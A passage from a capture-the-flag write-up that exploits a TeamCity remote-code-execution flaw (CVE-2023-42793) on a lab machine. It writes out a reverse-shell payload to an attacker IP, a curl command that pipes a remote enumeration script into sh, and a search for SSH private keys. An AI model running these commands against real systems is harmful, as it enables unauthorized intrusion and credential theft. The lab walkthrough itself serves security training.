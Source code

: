 From here, there are two pathways, one longer than the other. I will mention both.

###     First Pathway
It is related to the Remote Code Execution (RCE) we have on the service. We will proceed with obtaining a reverse shell on this site. Let’s complete this step using the script ‘rce.py’ available in my [repository](https://github.com/B4l3rI0n/CVE-2023-42793).

Lets check the script first,

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*877w73lARhvxuY5FCtJRiw.png)

Create a listener first then run the script

```bash
python3 rce.py -u http://teamcity.runner.htb -t token -c '"/bin/bash"&params="-c"&params="sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.35%2F3333%200%3E%261"'
```
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*XAHsaSEJMBRFet4VxxEukw.png)
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*RXePWiFIyVl7YJY4hw3wpA.png)

Escape the restricted shell using

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*Gy6WPaDlGN-lvLuXzBoRsQ.png)

#### Lets do some privilege escalation
Using linPeas for enumeration, first creating python server to transfer tool then curl it

1. Create a listener  
    ```bash
    python3 -m http.server
    ```
2. Run the enumeration script 
    ```bash 
    curl http://10.10.16.35:8000/linpeas.sh | sh
    ```
3. Searching for sensetive keys 
    
    After some searching, I found the id_rsa key, which can be used for SSH authentication.
    ```bash
    find / -name id_rsa 2> /dev/null
    ```
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*bAve78xnMzNouIYryJPN0g.png)

I tried some users that I enumerated at the start from the main domain and others I found in the `/etc/passwd` file, but none of them worked. Then, I remembered that when I was fetching TeamCity, I found a path that contains all users.

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*odijtWTxKTcoTZCKVRgmSw.png)
_http://teamcity.runner.htb/admin/admin.html?item=users_
